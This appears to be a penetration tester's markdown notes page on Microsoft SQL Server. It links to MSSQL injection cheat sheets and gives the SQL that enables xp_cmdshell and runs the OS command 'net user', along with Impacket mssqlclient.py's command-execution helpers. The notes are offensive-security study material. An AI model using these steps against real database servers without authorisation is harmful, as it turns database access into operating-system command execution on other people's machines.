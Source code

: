 ```yaml
---
tags: [mssql,windows]
---
```

# MS SQL Server

- [Pen test and hack microsoft sql server (mssql)](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)
- [MSSQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [MSSQL Practical Injection Cheat Sheet](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
- [PayloadsAllTheThings - MSSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)

## Enable xp_cmdshell on MS SQL Server 2005+

### Manually

```sql
-- To allow advanced options to be changed.
EXEC sp_configure 'show advanced options', 1;
GO
-- To update the currently configured value for advanced options.
RECONFIGURE;
GO
-- To enable the feature.
EXEC sp_configure 'xp_cmdshell', 1;
GO
-- To update the currently configured value for this feature.
RECONFIGURE;
GO
```

https://docs.microsoft.com/fr-fr/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-2017

Then execute code:

```sql
EXEC master..xp_cmdshell 'net user';
```

PS: It is enabled by default for MS SQL Server 2000

### mssqlclient

[mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) is part of Impacket and offers some bult-in helpers.

```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```
